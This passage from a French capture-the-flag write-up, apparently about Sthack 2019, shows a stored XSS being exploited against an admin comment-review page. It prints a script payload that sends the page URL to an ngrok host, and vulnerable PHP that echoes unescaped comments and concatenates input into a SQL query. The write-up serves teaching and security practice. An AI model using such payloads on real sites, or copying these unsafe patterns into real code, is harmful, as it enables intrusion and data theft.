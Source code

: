 Ici l'utilisation de ngrok va permettre de voir les requêtes effectuées sur notre adresse à grâce au panneau de suivi d'activité du logiciel.

![viewing_panel](/assets/images/sthack_2019/ngrock-test-lfi.png)

Nous pouvons voir que deux requêtes sont arrivées, cela signifie qu'il y a bien une faille XSS lorsque l'administrateur lit les commentaires. 

Exploitons cette faille pour connaître le code de la partie accessible par l'admin. Pour cela, on va récupérer le nom du fichier php utilisé pour lire les commentaires. Comme ceux-ci:

{% highlight js %}
<script> window.location = "http://XXXXXXXX.ngrok.io?location="+ window.location.href</script>
{% endhighlight %}

À la réception de la requête, on récupère /the-admin-secure-interface/review_comment.php.

# Etape 5 : Lecture des fichiers accessibles par l'admin
La lecture du fichier review_comment.php ne montre rien d'intéressant pour la résolution du challenge mise à part la faille XSS.

En effet, la page récupère le commentaire et affiche le commentaire sans le contrôler ce qui a été écrit.
{% highlight php %}
<?php
	$read = $bdd->query('select comment,movie_id from comments_to_be_reviewed LIMIT 1');
	
	while($r=$read->fetch()){
?>
	<p><?php echo $r['comment']; ?></p>

<?php	
	$del=$bdd->exec("delete from comments_to_be_reviewed where movie_id='".$r['movie_id']."'");
	}
?>
{% endhighlight %}
